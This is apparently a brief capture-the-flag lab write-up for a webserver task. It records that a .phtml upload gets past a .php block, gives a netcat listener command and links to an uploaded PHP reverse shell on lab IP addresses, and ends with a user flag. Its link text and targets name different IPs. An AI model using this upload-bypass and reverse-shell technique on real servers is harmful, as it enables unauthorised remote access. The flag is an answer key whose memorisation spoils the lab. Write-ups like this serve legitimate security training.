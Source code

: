 # Task 4: Compromise the webserver

  
  
  
1. Try upload a few file types to the server, what common extension seems to be blocked?  
.php  
  
  
3. Run this attack, what extension is allowed?  
.phtml  
  
nc -lvnp 1234  
  
<http://10.10.186.245:3333/internal/uploads/php-reverse-shell.phtml>  
  
[http://10.10.151.122:3333/internal](http://10.10.186.245:3333/internal/uploads/php-reverse-shell.phtml)  
  
[http://10.10.151.122:3333/internal/uploads/php-reverse-shell.phtml](http://10.10.186.245:3333/internal/uploads/php-reverse-shell.phtml)  
  
whoami - www-data  
  
  
5. What user was running the web server?  
bill  
  
6. What is the user flag?  
8bd7992fbe8a6ad22a63361004cfcedb